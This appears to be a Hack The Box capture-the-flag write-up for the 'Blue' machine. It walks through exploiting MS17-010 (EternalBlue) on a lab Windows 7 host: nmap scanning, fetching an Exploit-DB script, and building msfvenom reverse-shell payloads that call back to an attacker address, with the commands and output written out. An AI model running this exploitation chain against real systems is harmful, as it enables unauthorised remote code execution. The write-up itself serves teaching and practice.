

# Blue 

| | OS  | Difficulty |
| --- | --- | --- |
|  | Windows | Easy |


## Summary

* Windows 7 with an RCE against SMBv1, MS17-010 / [EternalBlue](https://en.wikipedia.org/wiki/EternalBlue).
* Python scripts are available to exploit.


## Tools needed

* Python w/ Impacket module
* SearchSploit
* msfvenom
* nc

## Detection 

Nmap as always.

```
#nmap -sV -O --script *vuln* -oA nmap 10.10.10.40                                                                                                                                 [9/298]
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-27 21:54 CDT
Nmap scan report for 10.10.10.40
Host is up (0.043s latency).                                                                   
Not shown: 991 closed ports                                                                                                                                                                   
PORT      STATE SERVICE      VERSION                                                           
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                                                                                                                                    
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=9/27%OT=135%CT=1%CU=42295%PV=Y%DS=2%DC=I%G=Y%TM=5F7150
OS:C0%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=109%TI=I%CI=I%II=I%SS=S%TS
OS:=7)OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M
OS:54DNW8ST11%O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=20
OS:00)ECN(R=Y%DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y
OS:%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0
OS:%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.68 seconds

```

## Analysis

SMB (139/445) is open. Remote Procedure Calls (RPC) are open on 135 as well as on a few ephemeral ports.

Ah, the most interesting thing is `Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)`.  That's [EternalBlue](https://en.wikipedia.org/wiki/EternalBlue).

Let's start there.

```
#searchsploit ms17-010
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit) (MS17-010)                                   | windows/remote/43970.rb
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)                                                                               | windows/dos/41891.rb
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                                                            | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                                        | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                                                  | windows_x86-64/remote/42030.py
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution (MS17-010)                                                               | windows_x86-64/remote/41987.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Okay, so four Python scripts and two Ruby's.  Trying Python.

```
#searchsploit -m 42031
  Exploit: Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)
      URL: https://www.exploit-db.com/exploits/42031
     Path: /usr/share/exploitdb/exploits/windows/remote/42031.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/htb/blue/42031.py
```

## Exploit

Checking the arguments to pass into 42031.py:

```
#grep print 42031.py | grep "{}"
        print("{} <ip> <shellcode_file> [numGroomConn]".format(sys.argv[0]))
```

Quick Googling for shellcode examples to run using msfvenom, I came across this page: https://root4loot.com/post/eternalblue_manual_exploit/

Generating two payloads since I'm not sure if this is x86 or x64.

```
#msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=10.10.14.2 --platform windows -a x64 --format raw -o sc_x64_payload.bin
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_payload.bin

#msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=10.10.14.2 --platform windows -a x86 --format raw -o sc_x86_payload.bin
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_payload.bin
```

Trying both I get the same response of INVALID_PARAMETER, but that's supposed to be a good response.

```
python 42031.py 10.10.10.40 sc_x64_payload.bin
shellcode size: 460
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
dd
```

But there's no activity on my listening port of 443.  I figured I probably didn't generate the right payload, so searching again I found some more payloads in another exploit tool, AutoBlue.

Although I could certainly try running AutoBlue instead of 42031.py, I thought I could use this tool to help generate the payload.

```
#git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
#cd AutoBlue-MS17-010/shellcode
#ls *.sh
shell_prep.sh
#./shell_prep.sh 
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode                                                                                                                                                      [269/1973]
Compiling x86 kernel shellcode                                                                 
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)                                                                                               
Y                                                                                              
LHOST for reverse connection:                                                                                                                                                                 
10.10.14.2                                                                                                                                                                                    
LPORT you want x64 to listen on:                                                                                                                                                              
443                                                                                                                                                                                           
LPORT you want x86 to listen on:                                                                                                                                                              
444                                                                                                                                                                                           
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell                                                                                                                   
1                                                                                              
Type 0 to generate a staged payload or 1 to generate a stageless payload                                                                                                                      
1                                                                                              
Generating x64 cmd shell (stageless)...                                                        

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.2 LPORT=443                                                                                 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                                                                                                        
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.2 LPORT=444                                                                                     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                                                                                                        
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE

```

Using the generated payload, let's plug it back into 42031.py

```
#python 42031.py 10.10.10.40 AutoBlue-MS17-010/shellcode/sc_all.bin 
shellcode size: 2203
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

Setting up two listeners for x64 and x86, I get a hit for x64:




Check for users

```
C:\Windows\system32>net users                                                                                                                                                                 
net users                                                                                                                                                                                     
                                                                                                                                                                                              
User accounts for \\                                                                                                                                                                          
-------------------------------------------------------------------------------                                                                                                               
Administrator            Guest                    haris                                                                                                                                       
The command completed with one or more errors.                                
```

Grab the flag for user haris.

## Privilege Escalation

No escalation necessary.  Grab the flag for the Administrator.


